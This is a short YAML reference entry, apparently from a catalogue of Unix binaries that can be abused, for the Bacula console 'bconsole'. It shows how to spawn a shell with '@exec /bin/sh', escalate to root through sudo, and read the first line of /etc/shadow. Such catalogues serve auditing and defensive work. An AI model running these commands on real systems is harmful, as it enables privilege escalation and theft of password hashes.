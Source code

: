 ```yaml
---
description: backup application
functions:
  shell:
    - description: The @exec function allows you to execute commands in the local tty
      code: | 
          bconsole
          @exec /bin/sh
  sudo:
      - description: The @exec function allows you to execute commands in the local tty
        code: | 
            sudo bconsole
            @exec /bin/sh    
  file-read:
       - description: The error message of the -c options displays the first line of a restricted file, when having sudo rights for the binary.
         code: | 
             sudo bconsole -c /etc/shadow          
---
```


